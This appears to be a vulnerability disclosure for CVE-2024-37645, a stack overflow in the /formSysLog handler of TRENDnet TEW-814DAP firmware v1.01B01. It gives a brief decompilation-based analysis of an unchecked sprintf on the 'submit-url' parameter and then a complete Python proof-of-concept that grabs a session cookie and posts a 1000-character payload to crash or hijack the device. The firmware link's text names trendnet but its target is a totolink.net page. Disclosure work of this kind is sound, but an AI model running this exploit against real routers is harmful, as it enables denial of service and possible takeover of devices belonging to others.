



# TRENDnet TEW-814DAP v1_(FW1.01B01) stack overflow  at /formSysLog

Product: TRENDnet TEW-814DAP Firmware Version: v1_(FW1.01B01)  

Manufacturer's website information：http://trendnet.com.cn/

Firmware download address ：[http://download.trendnet.com/](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37645

### Analysis

The decompiled code of function which read value of parameter "submit-url" and call send_redirect_perm function with the value as a parameter.






Parameter a2 is copied to buffer v14 through the sprintf function, but the length of parameter a2 is not checked.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.



### POC


```python
import argparse, requests, sys

def get_cookie(base_url):
    return requests.get(base_url).headers.get('Set-Cookie')

def exploit(base_url, cookie):
    url = f"{base_url}/boafrm/formSysLog"
    data = {
        'wlanlogEnabled': 'ON',
        'logEnabled': 'ON',
        'nextPage': '1', 
        'rtLogEnabled': 'ON',
        'doslogEnabled': 'ON',
        'submit-url': 'A' * 1000
    }
    return requests.post(url, headers={'Cookie': cookie}, data=data, allow_redirects=False)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The server ip')
    args = parser.parse_args()
    base_url = f"http://{args.ip}"
    cookie = get_cookie(base_url)
    exploit(base_url, cookie)
```

